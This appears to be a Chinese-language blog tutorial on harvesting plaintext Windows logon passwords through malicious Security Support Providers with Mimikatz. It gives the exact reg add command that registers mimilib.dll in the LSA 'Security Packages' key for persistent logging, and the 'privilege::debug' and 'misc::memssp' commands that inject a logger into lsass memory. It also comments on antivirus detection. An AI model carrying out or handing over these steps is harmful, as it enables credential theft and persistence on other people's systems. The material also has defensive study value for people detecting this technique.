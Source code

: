 
## 简介
安全支持提供程序（SSP）是Windows API，主要功能是扩展Windows身份认证机制，该DLL文件会在`lsass.exe` 启动过程中进行加载，在此之前现介绍一下，它会对Windows以下认证进行保护：
* NTLM
* Kerberos
* Negotiate
* 安全通道（Schannel）
* 摘要
* 凭证（CredSSP）

我们可以对任意一个SSP DLL文件，从而记录下用户明文登陆的密码。

此文章主要介绍 DLL结合注册表进行记录密码 以及 诸如内存记录密码。



## 利用
主要介绍Mimikatz的两种记录方法，还有Empire和PowerSploit的利用方法都差不多，就不详细介绍。
1. DLL和注册表结合

将Mimikatz程序中的`mimilib.dll`复制到目标机器的system32文件夹下
![1.png](https://raw.githubusercontent.com/is0late/is0late.github.io/master/_posts/2020/media/2020-01-07-01.png)
所以 需要管理员权限

向路径：
`hklm\system\currentcontrolset\control\lsa\`
添加新值

```
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```

![2.png](https://raw.githubusercontent.com/is0late/is0late.github.io/master/_posts/2020/media/2020-01-07-02.png)

用户登陆即会在相同路径下（System32）记录明文密码，且重启依旧会记录。

![3.png](https://raw.githubusercontent.com/is0late/is0late.github.io/master/_posts/2020/media/2020-01-07-03.png)

1. 注入内存中

将mimikatz传入目标机器

管理员权限启动

```
privilege::debug

misc::memssp
```

![4.png](https://raw.githubusercontent.com/is0late/is0late.github.io/master/_posts/2020/media/2020-01-07-04.png)

当用户登陆时，System32文件夹下会自动存储`mimilsa`里面存放登陆的账号密码。

![5.png](https://raw.githubusercontent.com/is0late/is0late.github.io/master/_posts/2020/media/2020-01-07-05.png)

注：因为是注入内存中的所以在重启后，该功能就没了。




## 总结

第一种方法比第二种会更好一些，但是mimilib.dll已经被各大av标记，所以谨慎使用吧